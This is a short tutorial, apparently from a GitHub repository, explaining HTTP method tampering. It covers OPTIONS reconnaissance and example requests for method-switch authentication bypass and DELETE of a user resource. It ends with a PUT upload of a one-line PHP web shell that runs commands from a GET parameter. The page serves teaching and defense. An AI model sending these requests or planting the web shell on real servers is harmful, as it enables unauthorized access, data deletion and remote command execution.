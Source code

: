 **HTTP Method Tampering** is a web attack where attackers manipulate HTTP methods (like `GET`, `POST`, `PUT`, or `DELETE`) to bypass security mechanisms or gain unauthorized access to resources. It exploits misconfigured servers or applications that don’t properly validate or restrict HTTP methods.

## HTTP Methods

- **GET**: Retrieves a resource without modifying it.  
- **POST**: Submits data to the server, often creating a resource.  
- **PUT**: Updates or creates a resource at a specified URL.  
- **DELETE**: Removes a specified resource.  
- **PATCH**: Partially updates a resource.  
- **HEAD**: Similar to GET but returns only headers.  
- **OPTIONS**: Describes the communication options for a resource.  
- **TRACE**: Echoes back the received request. 

## Using OPTIONS for Reconnaissance

The `OPTIONS` method can be used to discover which HTTP methods are allowed on a server. This helps attackers map out potential attack surfaces.

```ruby
OPTIONS / HTTP/1.1
Host: target.com
```
The server responds with something like:
```ruby
HTTP/1.1 200 OK  
Allow: GET, POST, PUT, DELETE, OPTIONS  
```
If dangerous methods like `PUT` or `DELETE` are enabled, they can be exploited to modify or delete resources.


### **Example Attack Scenarios:**

**Bypass Authentication with Method Switch**  
If an admin panel blocks `GET` requests but accepts `POST`, an attacker can switch methods to gain access:

```ruby
POST /admin HTTP/1.1
```

**Forced Resource Deletion**  
If the server allows `DELETE`, an attacker can erase resources:

```ruby
DELETE /users/123 HTTP/1.1
```

**Uploading Files with PUT**  
If `PUT` is enabled, attackers might upload malicious files or web shells:

```ruby
PUT /uploads/shell.php HTTP/1.1  
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
```
